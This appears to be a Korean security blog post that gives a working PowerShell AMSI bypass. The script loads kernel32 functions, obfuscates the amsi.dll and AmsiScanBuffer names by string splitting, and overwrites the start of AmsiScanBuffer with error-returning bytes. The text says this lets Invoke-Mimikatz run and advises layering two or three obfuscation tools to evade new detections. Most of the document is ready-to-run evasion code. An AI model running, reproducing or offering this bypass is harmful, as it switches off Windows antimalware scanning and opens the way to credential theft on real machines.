 ```powershell
$thing = @"
// thing 
// using System.Collections.ArrayList;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$why = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$hmm = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($hmm)
$dest = [payload]::GetProcAddress($librarz, $why)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```

﻿`Add-Type` 을 이용해 winapi를 가져오고, 그것을 이용해 에러를 반환하는 어셈블리 코드를 `amsi.dll` 라이브러리의 `AmsiScanBuffer` 함수의 시작 지점에 덮어씌우는 코드다.&#x20;

이를 이용하면 Invoke-Mimikatz 가 실행된다! - 07/03/2022 기준 (아마 몇 주 뒤에 막힐 것이다).

![](https://lh3.googleusercontent.com/bILbTPz93YDzaCh7S9oGjLkNs2eZhey0RW7guyYAjF4mkoeZs-Mp3\_rDHZxosXhagOaGzCch0IsXop5nE2aC10yFOxNVO3exaovcJmF9SHyGMdbTAmdKlchwp5BINUAoRUYCFBqo=s0)

### 추가&#x20;

AMSI 우회 페이로드는 많이 있지만, 나오는 족족 막히기도 한다. 재밌는 점은 난독화 툴을 2\~3개를 이용해 중첩 난독화를 하면 다시 또 AMSI 우회가 된다. (...)&#x20;
